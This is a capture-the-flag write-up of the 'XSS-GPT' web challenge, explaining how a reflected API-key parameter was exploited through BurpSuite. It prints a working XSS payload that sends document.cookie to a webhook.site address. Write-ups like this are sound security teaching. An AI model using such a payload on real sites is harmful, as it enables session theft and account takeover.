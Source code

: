 Name              : Lai Jian Hui <br>
Challenge Category: Web <br>
Challenge Name    : XSS-GPT <br>

## XSS-GPT
![image](https://github.com/user-attachments/assets/8479e899-7598-44fc-b4e0-c80bac8e3c72) <br>

# Description :
I built a chatgpt website using chatgpt. Feel free to try it! Remember to report to me if you found any bug

# Solution :

![image](https://github.com/user-attachments/assets/cd35f7db-48be-43b8-853f-879741ba8250) <br>
The challenge will bring us to a link that looks like chatgpt. I'm not allow to progress further as it says I do not have the API key but we can see that we have a lead that we can try to tamper with the API key value with other things
<br>
<br>

![image](https://github.com/user-attachments/assets/cc0c29db-0c5c-4645-bf5b-f5ed15d8480d) <br>
Since the challenge says XSS GPT, I try it rit away and it worked.A little changes is that the XSS payload needs to starts with the closing of </script> else it will not work because the API key part is wrap inside the JS script
<br>
<br>

![image](https://github.com/user-attachments/assets/08b40eda-e0a7-4b3d-9e32-d0166ff15083) <br>
XSS is a success and now we will look for a place to exploit it and get the API key. When going thru the reportAdmin() function will send a POST request to the API's endpoint along with the key. 
<br>
<br>

![image](https://github.com/user-attachments/assets/ce4526ba-a301-4ddc-900a-4b3a7e797624) <br>
Fire up BurpSuite and capture the reportAdmin request and send it to Repeater, we can see that is a POST request and the key is an empty value. With these 2, we can use the webhook method. Our solution will be sending our XSS payload inside the POST request and get the latest changes happen in webhook.site hosting service
<br>
<br>

![image](https://github.com/user-attachments/assets/ca3034f4-b787-4524-9719-41c0d465c2fc) <br>
Search webhook.site, by default they will prepare a hosting site for you, copy it and paste it in BurpSuite
<br>
<br>

![image](https://github.com/user-attachments/assets/66d95877-39ac-4c11-9f66-31f81b186f6d) <br>
We will be using combination of cookie stealing and redirection. To make sure that the request will be redirected to the webhook hosting site we use and steal the cookie.
<br>
<br>

![image](https://github.com/user-attachments/assets/36963aa9-c499-49ef-b70f-9a50613182ea) <br>
The payload will look like this: <br>
</script><script>location.href="https://webhook.site/96439999-db2f-41af-8027-7f1f50a00e31?c="+document.cookie</script> <br>
We encode the payload as URL format because the reportAdmin function specifies the key value must be encodeURIComponent.
<br>
<br>

![image](https://github.com/user-attachments/assets/a1e70c8a-812d-482c-8ecf-d31576d5c866) <br>
Copy the URL encode format XSS payload and replace the null value of the key and send the request. When the Response give you a 200 OK status, we can go to the webhook.site to check for latest changes happen at hosting server.
<br>
<br>

![image](https://github.com/user-attachments/assets/ef6afacc-a7d0-4610-945d-70113e584f18) <br>
The flag is at the quesry string section. Yatta!
<br>
<br>

**FLAG**
```
SKR{R3flec73D_1n_API_k3y_e9bc37}
```
